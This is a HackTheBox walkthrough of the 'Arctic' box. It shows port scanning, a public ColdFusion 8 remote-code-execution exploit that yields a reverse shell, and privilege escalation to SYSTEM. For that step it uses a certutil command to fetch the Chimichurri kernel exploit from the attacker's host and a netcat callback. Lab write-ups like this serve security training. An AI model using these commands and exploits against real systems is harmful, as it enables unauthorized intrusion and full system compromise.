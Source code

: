 # HackTheBox
------------------------------------
### IP: 10.129.42.31
### Name: Arctic
### Difficulty: Easy
--------------------------------------------

![Arctic.png](../assets/arctic_assets/Arctic.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ sudo nmap -p- -sC -sV 10.129.42.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-03 16:46 CDT
Nmap scan report for 10.129.42.31
Host is up (0.071s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.82 seconds
```

Looking at port 8500 we find an index.

![arctic_8500.png](../assets/arctic_assets/arctic_8500.png)

This is looking like ColdFusion. Clicking into CFIDE we find an administrator page:

![arctic_administrator.png](../assets/arctic_assets/arctic_administrator.png)

Following the administrator link we find a ColdFusion 8 login page.

![arctic_cf8.png](../assets/arctic_assets/arctic_cf8.png)

Looking for exploits I find this unauthenticated RCE exploit for Cold Fusion 8: https://www.exploit-db.com/exploits/50057

Lets give it a shot.

### Exploitation

Firstly we'll need to update lines 71-75 in the exploit to the correct IPs and ports:

```python
    # Define some information
    lhost = '10.10.14.216'
    lport = 443
    rhost = "10.129.42.31"
    rport = 8500
```

We can then launch the exploit with:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ python ~/Tools/exploits/coldfusion8_rce.py
```

This exploit spawns a reverse shell for us:

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>hostname
hostname
arctic
```

From here I can grab the user.txt flag:

![arctic_user_flag.png](../assets/arctic_assets/arctic_user_flag.png)

### Privilege Escalation

Not seeing much of interest on the box I decide to run `systeminfo` to see how old it is and what patching has been done:

```
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          4/7/2024, 8:35:41 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.087 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.243 MB
Virtual Memory: In Use:    1.042 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.42.31
```

Wow, this is a Windows Server 2008 R2 that hasn't been patched.

This is likely vulnerable to Chimichurri: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

Lets give it a try.

Lets transfer the exploit over:

```
C:\temp>certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

We can then setup a netcat listener and run:

```
C:\temp>.\Chimichurri.exe 10.10.14.216 444
.\Chimichurri.exe 10.10.14.216 444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

And after waiting about a minute we get a call back to our listener:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.42.31] 49301
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>hostname
hostname
arctic
```

We can now grab the root.txt flag:

![arctic_root_flag.png](../assets/arctic_assets/arctic_root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------------------------------
